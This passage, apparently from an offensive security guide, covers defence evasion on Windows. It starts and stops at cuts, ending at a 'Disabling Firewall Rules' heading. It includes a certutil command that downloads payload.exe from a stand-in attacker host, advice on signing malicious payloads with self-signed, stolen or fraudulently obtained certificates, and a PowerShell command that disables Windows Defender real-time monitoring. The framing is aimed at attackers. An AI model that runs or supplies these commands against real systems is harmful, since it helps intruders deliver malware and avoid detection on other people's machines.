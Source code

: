 Using Certutil.exe:

    Description: As mentioned before, Certutil.exe is a certificate utility tool that can also be used to download files and encode/decode base64.
    Example:

    bash

        certutil.exe -urlcache -split -f http://attacker.com/payload.exe payload.exe

C. Code Signing

Code signing involves signing executables and scripts with a trusted certificate, making them appear as legitimate, trusted programs. This can bypass security mechanisms that block unsigned or suspicious code.
Techniques for Code Signing:

    Self-Signed Certificates:
        Description: Create self-signed certificates and use them to sign malicious payloads. Although not as effective as certificates issued by trusted authorities, they can still bypass some security checks.
        Tools:
            OpenSSL: A toolkit for SSL/TLS. Can be used to create self-signed certificates.
        Example:

        bash

        openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

    Stolen Certificates:
        Description: Using stolen certificates from legitimate vendors to sign malicious binaries.
        Example:
            Attacks involving stolen certificates often require physical or network access to systems storing the certificates.

    Using Legitimate Signing Services:
        Description: Some attackers use legitimate code signing services to sign their payloads. They often impersonate legitimate companies to obtain these services.
        Example: Utilizing freely available signing services online to sign payloads with valid, albeit potentially short-lived, certificates.

D. Disabling Security Features

Disabling security features on the target machine reduces the chances of detection. This is a more aggressive approach and is usually a last resort due to the risk of alerting defenders.
Techniques to Disable Security Features:

    Disabling Windows Defender:
        Description: Windows Defender is the built-in antivirus software for Windows. Attackers may attempt to disable it to prevent their malware from being detected.
        Tools: PowerShell, Group Policy.
        Example:

        powershell

    Set-MpPreference -DisableRealtimeMonitoring $true

Disabling Firewall Rules:
